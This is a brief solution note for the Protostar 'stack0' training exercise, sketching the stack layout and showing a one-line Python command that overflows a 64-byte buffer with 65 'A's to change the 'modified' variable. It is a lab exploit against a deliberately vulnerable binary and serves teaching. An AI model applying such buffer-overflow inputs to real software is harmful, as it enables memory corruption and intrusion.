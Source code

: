 # Protostr - stack0 soln


stack
-------- esp

28 bytes

--------

buf[64]
64 bytes

-------
int modified
1 byte
-------- ebp

65 bytes as input to cause overflow

$  python -c "print 'A'*65" | ./stack0
you have changed the 'modified' variable



